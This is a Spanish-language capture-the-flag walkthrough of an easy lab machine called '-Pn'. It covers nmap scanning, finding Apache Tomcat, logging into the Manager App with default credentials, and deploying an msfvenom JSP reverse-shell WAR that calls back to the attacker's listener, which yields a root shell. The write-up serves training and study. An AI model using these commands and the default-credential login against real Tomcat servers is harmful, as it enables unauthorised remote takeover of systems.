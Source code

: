 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  02/04/2024
---
```


# -Pn

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 8080** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un Apache Tomcat.

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

Vamos a **Manager App** y nos pide unas credenciales. A través de esta [página ](https://book.hacktricks.xyz/es/network-services-pentesting/pentesting-web/tomcat)nos indica las credenciales por defecto y cómo vulnerar esta versión. Las credenciales fueron **tomcat:s3cr3t.**

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Subimos una Reverse Shell.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o reverse.war
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (887).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

y  somos **root.**
